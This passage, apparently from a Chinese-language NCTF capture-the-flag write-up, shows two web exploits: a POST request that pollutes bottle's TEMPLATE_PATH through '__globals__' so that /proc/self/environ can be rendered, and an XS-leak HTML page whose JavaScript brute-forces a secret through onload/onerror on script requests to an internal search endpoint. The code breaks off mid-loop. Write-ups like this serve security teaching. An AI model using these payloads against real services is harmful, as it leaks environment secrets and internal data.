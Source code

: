然后setval找globals找bottle。改templete的路径，加一个/proc/self

> POST /setValue?name=setval HTTP/1.1
>
> {
>
> "path": "__globals__.bottle.TEMPLATE_PATH",
>
> "value": ["./","./views/",
>
> 	"/proc/self/"
>
> ]
>
> }

随后直接render?path=environ即可

### internal_api

XS_leak，通过请求码来泄露。

exp：

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Error-Based Attack</title>
</head>

<body>
    <script>
        let currentFlag = "nctf{";
        const chars = "abcdef0123456789-{}";

        function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }

        function checkCharacter(char) {
            return new Promise((resolve) => {
                let script = document.createElement('script');
                script.src = `http://0.0.0.0:8000/internal/search?s=${currentFlag}${char}`;

                script.onload = () => {
                    document.head.removeChild(script);
                    resolve(true);
                };

                script.onerror = () => {
                    document.head.removeChild(script);
                    resolve(false);
                };

                document.head.appendChild(script);
            });
        }

        async function bruteforce() {
            try {
                while (!currentFlag.endsWith('}')) {
                    for (let char of chars) {
```